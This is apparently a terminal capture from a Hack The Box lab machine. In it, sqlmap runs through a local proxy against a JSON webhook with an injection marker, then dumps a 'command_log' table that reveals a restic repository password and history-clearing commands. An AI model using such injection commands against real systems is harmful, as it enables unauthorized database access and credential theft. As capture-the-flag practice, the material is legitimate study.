 ```
```

```
(lab-env) Hexada@hexada ~/pentest-env/pentesting-tools/sqlmap$ python3 sqlmap.py -u "http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d" \              master 
  --data='{"campaign_id":1,"email":"*","message":"Clicked Link"}' \
  --headers="Content-Type: application/json" \
  --proxy="http://127.0.0.1:1717" \
  -D temp --tables command_log 


[20:18:39] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:18:39] [INFO] fetching tables for database: 'temp'
[20:18:39] [INFO] resumed: 'command_log'
Database: temp
[1 table]
+-------------+
| command_log |
+-------------+
```

```
(lab-env) Hexada@hexada ~/pentest-env/pentesting-tools/sqlmap$ python3 sqlmap.py -u "http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d" \              master 
  --data='{"campaign_id":1,"email":"*","message":"Clicked Link"}' \
  --headers="Content-Type: application/json" \
  --proxy="http://127.0.0.1:1717" \
  -D temp -T command_log --dump 

Database: temp
Table: command_log
[6 entries]
+----+---------------------+------------------------------------------------------------------------------+
| id | date                | command                                                                      |
+----+---------------------+------------------------------------------------------------------------------+
| 1  | 2024-08-30 10:44:01 | uname -a                                                                     |
| 2  | 2024-08-30 11:58:05 | restic init --repo rest:http://75951e6ff.whiterabbit.htb                     |
| 3  | 2024-08-30 11:58:36 | echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd                       |
| 4  | 2024-08-30 11:59:02 | rm -rf .bash_history                                                         |
| 5  | 2024-08-30 11:59:47 | #thatwasclose                                                                |
| 6  | 2024-08-30 14:40:42 | cd /home/neo/ && /opt/neo-password-generator/neo-password-generator | passwd |
+----+---------------------+------------------------------------------------------------------------------+
```
